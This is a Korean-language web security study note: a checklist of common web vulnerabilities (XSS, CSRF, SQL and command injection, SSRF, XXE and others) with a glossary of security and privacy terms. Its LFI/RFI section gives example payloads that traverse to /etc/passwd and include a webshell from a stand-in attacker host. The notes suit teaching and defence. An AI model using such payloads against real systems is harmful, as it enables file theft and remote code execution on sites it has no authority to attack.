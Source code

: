 ## Web Vuln. Checklist & Security Terminology

---



## Web Vuln. Checklist

---

### 1. 단순 정보 노출

**1.1. 불필요 파일/페이지 노출**

- 불필요한 파일/페이지 노출은 말 그대로 웹 사이트의 민감정보가 의도치 않게 노출되는 취약점을 의미한다.
- 불필요한 파일 : 애플리케이션 설치시 기본적으로 제공되는 매뉴얼, 기본 페이지, 소스 백업 파일 등을 의미하며 이를 통해 시스템 관련 정보 혹은 내부 프로그램 로직등이 노출될 수 있는 간접적 위험을 제공할 수 있다.

**1.2. 부적절한 로그인 실패 메시지**

- 부적절한 로그인 실패 메시지는 공격자에게 계정관련 정보를 제공할 수 있다.
- 입력한 아이디가 존재하는지, 비밀번호가 맞는지 모두를 알 수 없도록 '해당되는 아이디가 없습니다', '비밀번호가 틀렸습니다'가 아닌 'ID 또는 PW가 잘못되었습니다'라는 실패메시지를 출력하도록 한다.

**1.3. 에러메시지 노출**

- 해커가 의도적인 에러를 유발하였을 때 적절한 예외처리를 하지않아 출력되는 에러정보에 중요정보가 포함되어 공격에 도움되는 정보가 노출될 수 있는 보안약점

**1.4. Default Page 노출**

- 애플리케이션 설치시 기본적으로 설치되는 샘플 페이지, 디폴트 페이지, 관리자 페이지 등을 제어하지 않아 웹 서버에 대한 정보를 제공하게 되는 보안약점



### 2. 중요 정보 노출

**2.1. 중요정보 평문 전송**

- 사용자 또는 시스템의 중요정보가 포함된 데이터를 평문으로 송수신 할 경우, 통신채널 스니핑을 통해 인가되지 않은 사용자에게 해당 데이터가 노출될 수 있는 보안약점
- `Wireshark`로 보이는 패킷에 암호화되어 알아볼 수 없도록 되어있지 않고 일반적인 문자가 캡쳐된다면 취약한 것.



**2.2. 중요정보 평문 노출**

- 비밀번호, 개인정보와 같은 중요정보를 암호화하여 저장하지 않아 정보가 노출될 수 있는 보안약점



**2.3. 파일 다운로드**

- 홈페이지 상에서 파일을 다운로드 받는 `asp, jsp, php` 프로그램에서 입력되는 경로를 검증하지 않는 경우 임의의 위치에 존재하는 파일을 열람하거나 다운받을 수 있는 보안약점



**2.4. 디렉터리 리스팅**

- 웹 서버 운영시 특정 디렉터리에 초기화 파일이 없을 경우 `(index.html, default.html, ...etc)` 해당 디렉터리의 파일 
  리스트를 브라우저에게 보여주게 되는 보안약점
- 구조 파악 & 민감정보가 포함된 파일 노출 -> 보안 위협



### 3. 취약한 인증 및 권한

---

**3.1. Cross-Site Script**

- 공격자가 <u>웹 사이트에 스크립트를 삽입</u>하여 의도치 않은 행동을 수행하거나 민감정보 탈취가 가능한 보안약점
- XSS의 공격대상은 클라이언트



**3.2. Cross-Site Request Forgery (CSRF)**

- 클라이언트가 자신의 의지와는 무관하게 공격자가 의도한 행위(삽입,삭제,등록 등)를 특정 웹사이트에 요청하게 만드는 공격



**3.3. 프로세스 검증 누락**

- 애플리케이션의 계획된 플로우 통제를 우회하는 것을 허가하는 보안약점.



### 4. 원격 명령실행

---

**4.1. Command Injection**

- `OS` 명렁어를 삽입하고 요청을 보내 웹 서버에서 실행시키는 취약점



**4.2 SQL Injection **

- 변조된 SQL언어를 사용해 DB내 데이터를 열람하거나 삽입&삭제하는 보안약점



**4.3. Local File Inclusion / Remote File Inclusion (LFIRFI)**

- 공격 대상 서버에 위치한 파일을 포함시켜 읽어오도록 하는 공격

- 파일이 존재하는 위치가 로컬인지 리모트인지에 따라 나뉨.

>**LFI** Ex) example.com/index.jsp?file=../../../../../../etc/passwd
>
>**RFI** Ex) example.com/index.jsp?file=http://evil.example.com/webshell.txt



**4.4. File Upload**

- 서버 사이드 언어로 개발된 프로그램을 업로드하여 실행시킬 수 있는 취약점



**4.5. Server-Side Request Forgery(SSRF)**

- 서버 사이드에서 이루어지는 `Request`를 변조하여 해커가 의도한 서버로 요청이 가게 하거나 요청 내용을 변경할 수 있는 공격
- 사용자의 입력을 받아 서버가 직접 다른 웹 또는 포트에 접근하여 데이터를 가져오는 기능들에서 주로 발생함



**4.6. XXE Injection**

- XXE : `XML External Entity` 
- XML : `Extensible Markup Language`로 다른 특수한 목적을 갖는 `Markup Language`를 만드는데 사용하는 언어
- 즉 XML 외부 요소를 삽입하는 공격
- XML 문서에서 동적으로 외부 URI 리소스를 포함시킬 수 있는 `external entity`를 사용하여 서버의 로컬파일 열람등을 유발할 수 있는 취약점으로 XML Request를 파싱하는 페이지에서 발생한다.



**4.7. 검증되지 않은 Redirect/Forward**

- 사용자의 입력값에 대한 검증 없이 리다이렉트 처리시 발생하는 취약점.
- 악의적인 URL로 렌더링 될 수 있는 취약점 존재.





## Security Terminology

---

**민감정보** : 사상, 신념, 노동조합&정당가입, 건강정보, 유전정보, 범죄경력 정보 등 그 밖의 <u>정보주체의 사생활을 현저히 침해할 우려가 있는 개인정보</u>

**고유식별정보** : <u>주민등록번호, 여권번호, 운전면허번호, 외국인등록번호</u>

**인증/인가** : 

- 인증 : 통제된 자원에 접근시, 등록된 사용자 인지 여부를 확인하는 것. -> 로그인

- 인가 : 접근 이후, 인증된 사용자에게 권한을 부여하는 것.

  인증을 거친 이후 인증된 사용자에게 특정한 권한을 부여하는것이 인가

**위협/위험/취약점**

- 위협 : 자산에 손실을 발생시킬 수 있는 원인 또는 행위
- 위험 : 위협이 발생할 수 있는 가능성
- 취약점 : 위협에 의해 손실이 발생하게 되는 약점

**취약점이 존재하지 않는다면 위협은 위험이 될 수 없다.**